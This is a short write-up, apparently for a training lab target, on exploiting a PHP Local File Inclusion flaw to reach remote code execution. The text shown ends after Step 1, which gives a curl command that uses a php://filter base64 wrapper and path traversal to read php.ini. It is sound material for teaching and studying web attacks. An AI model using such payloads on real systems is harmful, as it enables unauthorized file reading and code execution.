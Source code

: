# PHP LFI to RCE Exploit Write-Up

This repository documents a step-by-step process to exploit a Local File Inclusion (LFI) vulnerability in a PHP web application to read sensitive files and achieve Remote Code Execution (RCE).

## Overview
The target is a web server running a PHP application at `http://94.237.58.172:47698`. The application has an LFI vulnerability in the `language` parameter, which allows reading arbitrary files and, with `allow_url_include` enabled, executing remote code.

## Steps

### Step 1: Discover LFI Vulnerability
Using `curl`, I accessed the `php.ini` file by exploiting the LFI vulnerability with a PHP filter to base64-encode the file content:
```bash
curl "http://94.237.58.172:47698/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
